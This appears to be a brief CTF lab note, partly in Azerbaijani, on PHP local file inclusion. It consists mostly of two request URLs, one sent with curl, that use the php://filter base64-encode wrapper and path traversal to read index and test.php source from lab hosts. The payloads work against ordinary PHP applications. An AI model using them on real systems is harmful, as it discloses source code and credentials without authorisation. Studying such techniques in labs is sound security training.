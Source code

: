 # PHP

http://10.10.29.163/?view=php://filter/convert.base64-encode/resource=dog../../index

curl -s http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php ---------- php://filter filtr edir fayli hansisa formata belece geri cekmek olur onu ne yazilibsa icine